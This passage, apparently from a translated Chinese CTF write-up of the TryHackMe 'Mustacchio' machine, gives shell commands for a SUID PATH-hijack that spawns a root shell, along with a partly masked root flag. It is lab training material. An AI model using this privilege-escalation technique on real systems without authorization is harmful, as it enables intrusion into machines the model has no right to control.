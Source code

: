 ***使用 **strings** 命令，我可以看到二进制文件正在使用 **tail** 命令读取*/var/log/nginx/access . log*文件中的最后 10 个条目:***

```
*_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log  <--- Interesting
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
crtstuff.c*
```

***我可以看到为文件设置了 **SUID 位**,并且它使用了**尾**二进制，但没有指定完整路径。我们可以通过创建一个新的二进制文件并编辑$PATH 环境变量来生成一个根 shell。我发现以下资源有助于了解利用此漏洞的更多信息:***

***[](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) [## 使用路径变量提升 Linux 权限

### 在解决了几个 OSCP 挑战之后，我们决定写一篇关于用于 Linux 的各种方法的文章…

www.hackingarticles.in](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) 

为了生成一个根 shell，我在 */tmp* 文件夹中创建了一个名为 **tail、**的文件，当执行该文件时将生成一个 shell。然后，我编辑$PATH 变量，指向我创建文件的位置。一旦我完成了这个过程，我再次执行了 **live_log** ELF 二进制文件，这产生了一个根 shell:

```
barry@mustacchio:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
barry@mustacchio:~$ cd /tmp
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ chmod 777 tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ cd /home/joe/
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe#
```

最后，我可以拿到根旗并完成挑战。

```
root@mustacchio:/home/joe# cat /root/root.txt
3223581420d9.........
``` 

# ***结束语***

***我真的很喜欢在这台机器上工作，并且有机会学习更多关于 XML 注入攻击的知识。谢谢你一直读到最后，继续黑下去😄！***

***[](https://tryhackme.com/) [## 网络安全培训

### TryHackMe 是一个免费的学习网络安全的在线平台，使用动手练习和实验室，通过您的…

tryhackme.com](https://tryhackme.com/)***